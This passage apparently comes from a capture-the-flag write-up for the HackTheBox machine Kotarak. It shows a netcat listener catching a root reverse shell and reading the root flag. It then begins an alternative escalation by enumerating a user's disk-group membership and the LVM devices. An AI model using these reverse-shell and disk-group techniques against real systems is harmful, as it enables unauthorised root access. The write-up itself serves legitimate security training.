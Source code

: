     
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 48402
    bash: cannot set terminal process group (3240): Inappropriate ioctl for device
    bash: no job control in this shell
    root@kotarak-int:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

This shell on the on host kotarak-int, and it has landed me as root. I can
read `root.txt`:

    
    
    root@kotarak-int:~# cat root.txt
    950d1425************************
    

### Alternative Root via Disk

#### Enumeration

I actually found this root before finding the intended path. The first thing I
check when I get a shell is the groups the user is in with the `id` command:

    
    
    atanas@kotarak-dmz:/$ id
    uid=1000(atanas) gid=1000(atanas) groups=1000(atanas),4(adm),6(disk),24(cdrom),30(dip),34(backup),46(plugdev),115(lpadmin),116(sambashare)
    

I also knew at this point that there was another container involved this box,
and that I likely needed to get into it. I don’t see the lxc group here (or
docker if this was running in Docker containers), which doesn’t let me
interact with the container directly. But atanas is in the disk group, which
gives access to the raw devices.

`lsblk` shows how the devices are configured:

    
    
    atanas@kotarak-dmz:~$ lsblk
    NAME                   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
    sda                      8:0    0   12G  0 disk 
    ├─sda1                   8:1    0  120M  0 part /boot
    ├─sda2                   8:2    0    1K  0 part 
    └─sda5                   8:5    0 11.9G  0 part 
      ├─Kotarak--vg-root   252:0    0    7G  0 lvm  /
      └─Kotarak--vg-swap_1 252:1    0    1G  0 lvm  [SWAP]
    sr0                     11:0    1 1024M  0 rom 
    

`Kotarak--vg-root` and `Kotarak--vg-swap_1` are the root file system and swap
space under LVM. Both live on the `sda5` partition on `sda`. The LVM mappings
live in `/dev/mapper`:

    
    
    atanas@kotarak-dmz:~$ ls -l /dev/mapper/
    total 0
    crw------- 1 root root 10, 236 May 14 20:51 control
    lrwxrwxrwx 1 root root       7 May 14 20:51 Kotarak--vg-root -> ../dm-0
    lrwxrwxrwx 1 root root       7 May 14 20:51 Kotarak--vg-swap_1 -> ../dm-1
    